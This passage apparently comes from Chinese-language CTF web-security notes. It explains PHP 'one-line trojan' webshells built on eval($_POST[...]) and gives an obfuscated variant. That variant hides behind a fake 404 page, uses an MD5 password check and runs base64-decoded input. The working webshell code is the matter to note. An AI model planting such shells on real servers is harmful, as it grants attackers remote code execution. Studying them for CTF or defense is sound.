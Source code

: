 >![image-20220101144742659](CTF_web.assets/image-20220101144742659.png)

php语言一句话木马举例

```php
<?php 
    @eval($_POST['cmd']);
?>
```

>- eval函数
>
> 把字符串按照 PHP 代码来计算,该字符串必须是合法的 PHP 代码，且必须以分号结尾。
>
>- $_POST
>
> PHP 超全局变量 $\_GET 和 $\_POST 用于收集表单数据（form-data）。

一句话木马会把我们通过POST方式提交的符合php代码规范的字符串当做php代码执行。

[PHP WebShell变形技术总结 - 腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1097506)

简单的webshell变形 加密类变形

```php
<?php
echo "404 Not Found!</br>"; error_reporting(0); 
if(isset($_POST['com']) && md5($_POST['com']) == '202cb962ac59075b964b07152d234b70' && isset($_POST['content'])) 
$content = strtr($_POST['content'], '-_,', '+/=');
eval(base64_decode($content));
echo 'We are sorry but the page your are looking for is Not Found...'
 ?> 
```
